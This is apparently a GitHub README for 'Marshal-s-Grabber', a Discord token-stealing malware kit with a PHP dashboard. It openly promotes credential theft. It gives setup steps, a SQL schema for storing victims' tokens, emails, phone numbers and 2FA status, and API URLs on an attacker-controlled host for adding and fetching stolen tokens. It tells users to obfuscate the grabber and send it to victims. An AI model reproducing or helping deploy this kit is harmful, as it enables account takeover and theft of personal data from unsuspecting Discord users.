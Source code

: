 # Marshal-s-Grabber
The Best Most powerfull token grabber with dashboard.
<div align="center">
  <h2>🚀 Marshal`s Lab 🚀</h2>
  <p>The most powerfull Discord Token Grabber with Dasboard</p>
  <a href="https://discord.gg/GPVnYTzsFF" target="_blank">Join my Discord Server</a><br><br>

  <img src="https://i.imgur.com/l9hMrQO.gif" width="60%">
</div>

<br><br><br>


> ## Features
> - All in Interface
> - Can't delete webhook
> - Custom API for fetch/remove/add tokens
> - Login system with secret password
> - Grabber on 22 Applications/browsers
> - Very Simple Usage

<br><br>

> ## Usage
> For use Marshal, you need a Server accept PHP and contain a database,
> 1. Put the files in your host
> 2. Go to your phpmyadmin, in section SQL paste that:
> ```sql
> CREATE TABLE `tokens` (
>   `user_id` text NOT NULL,
>   `username` text NOT NULL,
>   `avatar` text NOT NULL,
>   `email` text NOT NULL,
>   `phone` text NOT NULL,
>   `badges` text NOT NULL,
>   `nitro_badges` text NOT NULL,
>   `twofactor` text NOT NULL,
>   `token` text NOT NULL
> ) ENGINE=InnoDB DEFAULT CHARSET=utf8;
> ```
> 3. Make your database ip,databse name,username,password in the file `Inc/database.php`
> 4. Setup your passwords and webhooks in `INC/functions.php`
> 5. Make your host adress in `Grabber/python/marshal.py` at line 5
> 6. Compile and obfuscated your Grabber and send it to your victime :)

> 7. Put a stars and follow me for more :)

<br><br>

> ## API Working
> - Add Discord Token To Database
> - - `https://yourhost.com/api?type=addtoken&token=THE_VICTIME_TOKEN`
> - Remove Discord Token From Database
> - - `https://yourhost.com/api?type=removetoken&password=YOUR_SECRET_PASSWORD&token=THE_VICTIME_TOKEN`
> - Fetch Discord Token Info From Database
> - - `https://yourhost.com/api?type=fetchtoken&password=YOUR_SECRET_PASSWORD&token=THE_VICTIME_TOKEN`

